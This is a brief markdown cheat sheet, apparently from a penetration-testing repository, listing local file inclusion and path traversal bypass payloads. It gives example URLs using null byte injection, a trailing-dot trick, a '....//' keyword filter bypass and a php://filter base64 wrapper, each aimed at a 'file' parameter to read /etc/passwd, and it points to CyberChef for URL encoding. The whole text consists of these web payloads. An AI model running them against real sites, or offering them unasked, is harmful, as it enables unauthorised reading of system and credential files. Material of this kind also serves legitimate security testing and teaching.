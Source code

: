 ## Null Byte bypass

### Example:

#### http://site.com/index.php?file=../../../etc/passwd%00 (0x00 in hex)

## Current directory trick

####  http://site.com/index.php?file=../../../etc/passwd/.

## Keyword filter bypass

### Example:

#### http://site.com/index.php?file=....//....//....//....//etc/passwd

## Base64 PHP Filter

#### http://site.com/index.php?file=php://filter/convert.base64-encode/resource=../../etc/passwd

## HTML URL Encoding bypass

### Use Cyberchef! https://gchq.github.io/CyberChef/
